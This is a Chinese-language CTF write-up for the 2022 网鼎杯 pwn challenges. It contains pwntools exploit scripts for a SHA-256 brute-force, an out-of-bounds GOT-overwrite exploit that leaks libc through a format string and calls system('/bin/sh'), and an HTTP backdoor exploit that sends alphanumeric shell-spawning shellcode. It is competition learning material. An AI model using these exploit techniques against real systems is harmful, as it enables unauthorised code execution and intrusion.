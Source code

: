 ```yaml
---
title: 2022 网鼎杯线上赛 pwn Writeup
date: 2022-08-24 6:54:59 +0800
categories:
  - ctf比赛
tags:
  - pwn
  - ctf
permalink: /posts/id=43/
pin: false
published:
---
```


# 青龙组

## crypto091

```python
# _*_ coding:utf-8 _*_
from pwn import *
import sys
import struct
import hashlib
import os
from hashlib import sha256
# context.log_level = 'debug'

def dbg(con=''):
    gdb.attach(p,con)
    # pause()

#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda s                  :p.success('%s -> 0x%x' % (s, eval(s)))
#-----------------------------------------------------------------------------------------

hs = 'c22a563acc2a587afbfaaaa6d67bc6e628872b00bd7e998873881f7c6fdc62fc'
for i in range(17090000000,17099999999):
	a = sha256('86'+str(i).encode()).hexdigest()
	if(a == hs):
		print(i)
		break

p.interactive()
```

## pwn239

非预期

![image-20220826195259755](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220826195259755.png)

# 白虎组

## program

![image-20220828203615901](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220828203615901.png)

got表可写，add函数记录size的数组下标为int类型，且num++是先完成所有赋值操作再自+1，导致可申请11个块内容，能覆盖到num这个下标变量。我们可以利用add功能在0x40a0这个数组上方等间隔地址写入内容，

执行show功能前会对num非0校验，show功能同样存在数组越界，利用这点可以实现在0x40a0这个数组上方等间隔地址泄露其内容，泄露长度在0x40a0这个数组最后几个位置取。

利用思路在0x40a0数组下标为-100时为printf_got+4的位置，-300时存在一个程序地址，泄露程序地址以获得基地址，再修改print_got+8(memset_got)为printf_plt，利用格式化字符串泄露libc地址(这里因为用stycpy写入内容，存在offbynull不能直接泄露got表)，泄露后用同样的方法改menset_got为system即可

![image-20220828203820184](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220828203820184.png)

![image-20220828204225818](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220828204225818.png)

```python
# _*_ coding:utf-8 _*_
from pwn import *
import sys
import struct
import hashlib
import os
from hashlib import sha256
# context.log_level = 'debug'

ip = ""
port = ""
# p = remote(ip,port)
p = process("./main")

elf = ELF("./main")
libc = elf.libc

def dbg(con=''):
    gdb.attach(p,con)
    # pause()

#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda s                  :p.success('%s -> 0x%x' % (s, eval(s)))
#-----------------------------------------------------------------------------------------
def add(con,size):
	sl('1')
	p.sendlineafter("Please enter your data:",con)
	sla('Please enter the length of your data:',size)

def show(idx):
	sl("2")
	sla("Please enter the entry number of your data:",idx)

dest = 0x40A0

for i in range(10):
	add('\x00'*98,1)
	
# dbg('b *$rebase(0x13E5)\nc\n')
add('b'*8+p64(8),-2)
# dbg("dq $rebase(0x40a0) 200\n")

show(-3)
p.recvline()
base = u64(p.recv(6).ljust(8,'\x00'))-0x6b8
lg('base')

# dbg("dq $rebase(0x40a0) 200\n")
add('b'*4+p64(base+0x1070)[:-1],1)

for i in range(10):
	add('\x00'*98,1)
add('b'*8+p64(8),-1)# num=0
add('%33$p',1)

sl(2)
sl(1)

p.recvuntil("0x")
libc_base = int(p.recvuntil("Pl")[:-2],16)-0x24083
lg('libc_base')
bin_sh = libc_base+libc.search("/bin/sh").next()
system = libc_base + libc.sym['system']
one = libc_base +0xe3b01
lg('bin_sh')

for i in range(9):
	add('\x00'*98,1)
add('b'*8+p64(8),-2)
add('b'*4+p64(system),1)

add('/bin/sh',1)
sl(2)
p.interactive()
```

## Easybackdoor

逆向处理命令的函数fetch，获得输入命令的方式

输入后会判断输入是否可视化，同时判断相应字段执行功能

![image-20220827171338887](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220827171338887.png)

backdoor需要登录验证才能执行，会直接执行输入的shellcode，在执行前对寄存器进行了赋值，所以要先清空寄存器(汇编xor)，然后和shellcode拼接，用alpha3生成可视化shellcode

![image-20220827171531529](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220827171531529.png)

```python
from pwn import *
context.arch='amd64'
sc = '''
xor edi, edi
xor esi, esi
xor edx, edx
'''
scl = asm(sc)+asm(shellcraft.sh())
print scl
```



```python
# _*_ coding:utf-8 _*_
from pwn import *
p = process("./chall")
elf = ELF("./chall")
libc = elf.libc

#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda s                  :p.success('%s -> 0x%x' % (s, eval(s)))
#-----------------------------------------------------------------------------------------

pay = "POST /Login HTTP/1.0\r\n"
pay += "Content-Length:{}\n".format(len("root&R00T"))+'\n'
pay += "root&R00T"
ru("content> ")
p.send(pay)

sc = 'Ph0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M1L8N1M8N1O3s2G0P164I1P0Q2z1l0h7O1O0B0f1L3P3F080B08031K4p0X2t0i060N001N3V2t0Z0n0o14024v0e2n4y3N114P0Z130h7l040A04'
pay = "POST /B4ckd0or HTTP/1.0\r\n"
pay += "Content-Length:{}\n\n".format(len(sc))
pay += sc
ru("content> ")
p.send(pay)

p.interactive()
```

